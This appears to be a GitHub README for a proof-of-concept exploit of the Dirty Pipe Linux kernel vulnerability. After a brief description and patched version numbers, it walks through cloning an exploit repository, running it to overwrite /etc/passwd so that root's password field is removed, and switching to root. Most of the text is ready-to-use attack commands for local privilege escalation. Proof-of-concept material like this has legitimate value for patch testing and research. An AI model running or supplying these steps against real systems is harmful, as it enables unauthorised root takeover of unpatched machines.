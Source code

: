 # Dirty-Pipe (PoC)

# What is it?

Dirty-Pipe is a vulnerability which allows us to overwrite files even if they have read-only permissions. This vulnerability affects kernel versions 5.8 onwards. This vulnerability has reportedly been patched for kernel versions 5.10.102, 5.12.25 and 5.16.11.
---

1. First of all, we must clone the repository where the exploit is located. 

```bash
git clone https://github.com/nekoox/dirty-pipe.git
```

2. Once cloned, we enter the directory and execute the exploit with the following syntax.

```bash
cd dirty-pipe

./exploit /etc/passwd 1 "${$(cat /etc/passwd)/root:x/oot:}"
```

3. Once run, if the kernel version is vulnerable, it should work fine. We change to root.

```bash
su
```

![image](https://i.imgur.com/D2Qm4qh.png)

And as we can see we have successfully exploited Dirty-Pipe!
